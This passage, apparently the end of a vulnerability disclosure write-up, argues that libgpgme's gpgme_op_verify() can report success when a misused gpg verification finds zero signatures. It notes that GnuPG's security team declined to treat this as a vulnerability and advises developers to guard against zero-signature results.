* Should `gpg` complain on `--status-fd` when trying to verify a non-detached signature as if it were detached? Maybe.
* Should `gpgme_op_verify()` notice the non-zero exit status and lack of signatures, and give something **other than** `GPG_ERR_NO_ERROR` to its caller? In my opinion, yes.

And so this could be considered a vulnerability in either `gpg` or `libgpgme`.

During the disclosure process, I contacted <security@gnupg.org>. The developers
on duty decided that this would not be handled as a vulnerability.

Developers who use `libgpgme` should take note and ensure that their signature
verification logic defends against a zero-signature result.
